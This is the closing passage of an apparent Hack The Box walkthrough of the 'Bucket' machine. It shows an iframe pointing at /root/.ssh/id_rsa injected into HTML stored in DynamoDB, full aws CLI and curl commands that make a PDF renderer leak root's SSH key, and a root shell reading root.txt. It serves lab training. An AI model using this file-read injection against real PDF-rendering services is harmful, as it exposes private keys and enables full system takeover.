 Once we have been able to make the request work, the second step is finding a way to get sensitive data into the PDF file.

The easiest way would be to import `/root/root.txt`, but this doesn't give us an interactive shell in the box. Just like we did in [**Passage**]({% post_url 2021-01/2021-03-06-htb-passage %}), we can look for the file `/root/.ssh/id_rsa` and use it to SSH into the machine as root but our issue right now is to find a way to import this file in the static HTML file that will later be rendered into the PDF.

After some research, the easiest way without using a Javascript to make this possible would be using an **iframe**, which I've added the tag `<iframe src="/root/.ssh/id_rsa" seamless></iframe>` in the HTML content sent earlier:

```bash
aws dynamodb create-table \
    --table-name alerts \
    --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S \
    --key-schema AttributeName=title,KeyType=HASH AttributeName=data,KeyType=RANGE \
    --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=10 \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb && \
aws dynamodb put-item \
    --table-name alerts \
    --item '{"title": {"S": "Ransomware"},"data": {"S": "<html><head><title>Title</title></head><body><h1>Head 1</h1><iframe src=\"/root/.ssh/id_rsa\" seamless></iframe></body></html>"}}' \
    --return-consumed-capacity TOTAL \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb && \
curl --data "action=get_alerts" http://localhost:8000/    
```

After running it, was able to download the file at `/var/www/bucket-app/files/result.pdf` and, with the contents inside it, created the file `id_rsa`, which was used to authenticate to SSH to the box as `root`, being able to read the root.txt file.

```bash
root@bucket:~# id
uid=0(root) gid=0(root) groups=0(root)
root@bucket:~# cat /root/root.txt
<redacted>
```

I hope you guys have enjoyed this post.

See you again soon! :smiley:
